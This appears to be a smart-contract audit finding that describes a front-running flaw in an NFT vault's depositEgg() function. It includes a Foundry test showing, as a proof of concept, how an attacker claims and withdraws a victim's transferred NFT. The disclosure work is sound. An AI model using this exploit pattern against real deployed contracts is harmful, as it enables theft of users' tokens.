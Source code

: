 If a user sends their NFT to the vault contract via transferFrom(), there is a time window before they can call depositEgg(). During this time, a malicious actor can observe the transaction in the mempool and quickly call depositEgg() with the victim’s tokenId, setting themselves as the depositor.

Later, they can call withdrawEgg(tokenId) and receive the victim’s NFT — with full authorization from the vault contract.

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.23;

import "forge-std/Test.sol";
import "../src/EggVault.sol";
import "../src/EggstravaganzaNFT.sol";

contract EggVaultTest is Test {
EggVault public vault;
EggstravaganzaNFT public nft;


address owner = address(0xABCD);
address player = address(0xBEEF);
address attacker = address(0xBAD);

function setUp() public {
    vm.startPrank(owner);
    nft = new EggstravaganzaNFT("Egg", "EGG");
    vault = new EggVault();
    vault.setEggNFT(address(nft));
    nft.transferOwnership(owner);
    nft.setGameContract(owner);
    vm.stopPrank();

    // Mint a token to the player
    vm.startPrank(owner);
    nft.mintEgg(player, 1);
    vm.stopPrank();
}

function testFrontRunningDepositorSpoofing() public {
    // player approves and transfers token to the vault
    vm.startPrank(player);
    vm.prank(player);
    nft.approve(address(vault), 1);
    nft.transferFrom(player, address(vault), 1);
    vm.stopPrank();

    // attacker front-runs and claims deposit with their address
    vm.startPrank(attacker);
    vault.depositEgg(1, attacker); // this is the vulnerability!
    vm.stopPrank();

    // attacker withdraws the victim's NFT
    vm.prank(attacker);
    vault.withdrawEgg(1);

    assertEq(nft.ownerOf(1), attacker, "Attacker should have stolen the NFT");
}
}
```
